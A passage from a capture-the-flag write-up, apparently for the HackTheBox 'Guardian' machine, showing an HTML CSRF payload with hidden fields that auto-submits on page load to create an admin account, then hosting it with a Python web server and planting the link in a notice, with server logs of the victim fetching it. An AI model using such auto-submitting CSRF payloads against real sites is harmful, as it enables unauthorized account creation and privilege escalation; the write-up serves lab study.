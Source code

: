 ```html
        	<input type="hidden" name="address" value="Admin Address">
        	<input type="hidden" name="user_role" value="admin">
        	<button type="submit">Create Admin Account</button>
		</form>
		
		<script>
        window.onload = function() {
            document.getElementById('Form').submit();
        };
    </script>
	</body>
</html>
```

Now setup our server.

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Create new notice with our new link.

![Guardian Lecturer Create Notice](/assets/img/guardian-htb-release-area-machine/guardian-htb-release-area-machine_lecturer-create-notice-4.png)

Hold the breath for few second.

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.150.76 - - [31/Aug/2025 11:24:09] "GET /csrf.html HTTP/1.1" 200 -
10.129.150.76 - - [31/Aug/2025 11:24:10] code 404, message File not found
10.129.150.76 - - [31/Aug/2025 11:24:10] "GET /favicon.ico HTTP/1.1" 404 -
```
